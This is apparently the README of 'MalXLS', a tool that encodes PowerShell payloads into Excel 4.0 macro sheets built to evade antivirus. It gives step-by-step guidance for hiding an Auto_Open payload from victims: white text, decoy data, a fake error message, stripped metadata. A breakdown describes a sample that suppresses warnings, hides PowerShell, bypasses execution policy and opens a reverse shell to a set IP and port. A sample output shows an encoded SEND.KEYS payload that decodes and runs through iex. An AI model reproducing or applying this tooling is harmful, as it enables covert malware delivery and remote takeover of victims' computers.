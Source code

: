 # Foreword

This is an old project from 2020 that I created on a different account. The original repository is gone, but the first person that forked it became the new owner. I decided to reupload the project on this account.

# Disclaimer

MalXLS is provided "as is", without warranty of any kind. The author of the project takes no responsibility for the abuse of anything provided and presented in the repository. Illegal usage of MalXLS is strictly prohibited.

# MalXLS

MalXLS is a quick way to encode undetected PowerShell payloads for Excel 4.0 Macro sheets.

Note that antivirus software may block the execution of certain PowerShell scripts even if the payload itself is undetected. It is the user's responsibility to work around the antivirus or disable it through other means.

### Why use the XLS format instead of XLSM? Why use Excel 4.0 Macros instead of VBA?

Read this blog post: https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/

The important part starts at the `Support for XLM` section.

It is also not immediately obvious that the file contains a macro if it is saved under `XLS` instead of `XLSM` until the warning is displayed when opening the file.

## Getting Started

- Create a new Excel workbook and save it under the XLS format, then insert a new MS Excel 4.0 Macro sheet.
- (Optional) Delete the default sheet and rename the macro sheet to something less obvious
- Insert your payload into the macro sheet (preferrably in a random cell), then rename the first cell of the payload to `Auto_Open` to run the payload automatically when opening the file
  - For an example, see the provided `Book1.xls` file. It does not contain a cell named `Auto_Open`
  - See [Usage](#usage) for instructions on generating a payload
- (Optional) Change the text color to `WHITE` and make sure the cells are the same size as regular cells
- Activate cell `A1` so that it is not immediately obvious where the payload is when opening the file
- (Optional) Insert some faux data at the beginning of the sheet
- Remove identifying information from the file (File > Info > Check for Issues > Inspect Document)

<details>
  <summary>Book1.xls breakdown</summary>    
  <br /><img src="https://raw.githubusercontent.com/davidcristian/MalXLS/master/Excel%20File%20Examples/virus_scan.png" alt="A screenshot of the virus scan results from multiple engines" /><br /><p><a href="https://www.virustotal.com/gui/file/e5f25bb70bac14f8909fce9385a55557955b9bfa2a26d8be42ff5208f1488127/detection">Scan results</a></p><br /><img src="https://raw.githubusercontent.com/davidcristian/MalXLS/master/breakdown.png" alt="A screenshot of the commands (numbered) inside Book1.xls" />
  <p>
    
    1.  Disable all warnings and errors so that the macro never breaks
    2.  Open PowerShell in a minimized state (keystrokes still go through)
    3.  Wait 1 second
    4.  Hide the PowerShell window
    5.  Continuation of 4.
    6.  Wait 1 second
    7.  Open a 32bit PowerShell session if the current one is 64bit
    8.  Wait 1 second
    9.  Set the execution policy to bypass for the current session so that any script may run
    10. Wait 1 second
    11. Start a reverse TCP connection to 192.168.144.134 on port 4242 (Note that this is blocked by Windows Defender)
    12. Continuation of 11.
    13. Continuation of 11.
    14. Wait 1 second
    15. Activate the Excel window
    16. Display a faux error message about there being an error when opening the file
    17. Close Excel (no warnings will be shown due to 1.)
  </p>
</details>

### Prerequisites

[.NET Framework 4.8](https://dotnet.microsoft.com/download/dotnet-framework/net48) is required to run the binary that computes payloads.

If you are using Windows 10 and have the May 2019 Update (1903) you are good to go, otherwise you need to install the runtime.

### Usage

The payload generator can be downloaded from the [Releases](https://github.com/davidcristian/MalXLS/releases) page. The source code is available in the `Generate Payload` directory.

```
ComputePayload
Usage: .\ComputePayload.exe [OPTION]... [FILE]... [-C]
  -e    Compress a file using GZip and encode it into a base64 string
  -f    Fix the bad characters in a file (use on one-liners)
  -c    Copy the generated commands into the clipboard
```

Example:

```
.\ComputePayload.exe -e .\clear_history.ps1 -c
=SEND.KEYS("$b=""H4sIAAAAAAAEAJWQQWsCMRCF7wv{+}h0Es7h42h14KggeRWkvVLkbwID2k7sgGshnZjMoi/vcm7hZb8NDeMpm8L{+}{+}9XqGOmMklqtxoizCEuGcPxkDqh/gFOZ1TfjAI6fMIpDZo2dRjsqztAeEmTJJO1In0zst/ExM4dyKAsUFVpVNyHKbwboWO00xx0XxzU7zvWZNNxFQ7pqqWAeefeRAELcASSzpi{+}spYNraY9n{+}EtIQm4hAW"; TRUE)
=SEND.KEYS("eGoxq3qPMNEh6D88BdrlR7xmGy42c72tyNGORUYnrGSBxohM{+}uocGQzcmed{+}DAZXaauMfYsXQOPwXmvfrjeydt60WOLO4DYYEyPnsPw0tefNSOVrzUWmKtbKLFSJcbdVrLXN6eTEhKrSdZOr0XsrIdHmb1g7zwvHtdIc9x/Okyd4vPSTO4l9C1/sVYH1SwIAAA=="";nal no New-Object -F;iex {(}no IO.StreamReader{(}no "; TRUE)
=SEND.KEYS("IO.Compression.GZipStream{(}{(}no IO.MemoryStream -A @{(},{[}Convert{]}::FromBase64String{(}$b{)}{)}{)},{[}IO.Compression.CompressionMode{]}::Decompress{)}{)}{)}.ReadToEnd{(}{)}~{NUMLOCK}"; TRUE)
```

## Known Issues

- Sending large commands requires multiple wait instructions (usually every 3 cells). The cause for this is unknown because the `TRUE` switch for `SEND.KEYS` should wait for the keystrokes to be processed before going to the next instruction, which is not always the case and results in mixed keystrokes and a broken payload.

## License

This project is licensed under the GPLv3 License - see the [LICENSE](LICENSE) file for details

Files belonging to other authors have their license in the same directory as them.

## Acknowledgments

- PowerShell decoding, decompression, execution, hide_window.ps1, and assure_32bit.ps1 snippets from MaMe82's [helper.js](https://github.com/RoganDawes/P4wnP1_aloa/blob/master/dist/HIDScripts/helper.js) file for the [P4wnP1 A.L.O.A.
  ](https://github.com/RoganDawes/P4wnP1_aloa)
- PowerShell clear_history.ps1 script from [here](https://stackoverflow.com/a/38807689)
- PowerShell reverse_shell.ps1 script from [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell) (second one)
- [This](https://d13ot9o61jdzpp.cloudfront.net/files/Excel%204.0%20Macro%20Functions%20Reference.pdf) excellent book
